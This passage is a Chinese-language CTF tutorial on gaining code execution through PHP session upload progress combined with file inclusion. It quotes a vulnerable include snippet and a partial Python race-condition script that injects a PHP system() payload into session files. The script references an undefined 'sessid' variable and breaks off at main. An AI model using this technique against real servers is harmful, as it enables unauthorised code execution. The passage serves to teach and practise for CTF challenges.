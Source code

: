 ```
    值为off，表示Cookie中的sessionid可控。
```

一般来说PHP_SESSION_UPLOAD_PROGRESS是开的，所以我们一般会往这个键值中写入恶意代码，然后让整个sess文件被文件包含后解析代码，最终执行代码。

以[ NSSCTF - 第五空间 2021\EasyCleanup (ctfer.vip)](https://www.ctfer.vip/problem/336)为例

服务端代码出现

```
if(isset($_GET['file'])){ 
    if(strlen($_GET['file']) > 15 | filter($_GET['file'])) exit("hacker"); 
    include $_GET['file']; 
} 
```

我们考虑进行文件包含，之后使用其他方法先对phpinfo进行查看，观察是否关闭了`session.upload_progress.cleanup`，若没有则可以直接使用burp上传恶意代码，若存在则需要不停上传同一个session来确保恶意代码能够执行。

###### 脚本编写

我们一般通过python进行脚本编写（python版本3.8+）

首先导入两个库

```
import threading
import requests
```

requests用来进行网络请求，threading用来分离线程，做到不断循环上传session从而竞争。

定义基本信息

```
target_url = "http://xxx.xxx.xxx.xxx/index.php"#据情况而定
session_id = "flag"#自行决定
expcode = {"PHP_SESSION_UPLOAD_PROGRESS":"<?php system('ls');?>"}#自行要执行的代码
MyCookie = {'PHPSESSID': sessid}#设置本地cookie值和自定义的session_id一致
proxies = {
    "http": "127.0.0.1:8080",
}#设置本机代理，也可以不设置
```

编写竞争函数

```
def send_file(session):#形参为后面多线程的指令集提供入口
    while True:
        resp = requests.post(url=target_url, data=expcode, files={'file': ('res.txt', "nothing")}, cookies=MyCookie)
```

不停的上传同样的post请求。将结果存于res.txt中。

编写读取信息函数

```
def getflag(session):
    while True:
        payload_url = target_url + '?file=' + '/tmp/sess_' + session_id
        #根据漏洞进行伪协议读取文件
        resp = requests.get(url=payload_url)
        if 'upload_progress' in resp.text:
            print(resp.text)
            break
```

main函数

```
if __name__ == '__main__':
    session = requests.session()
```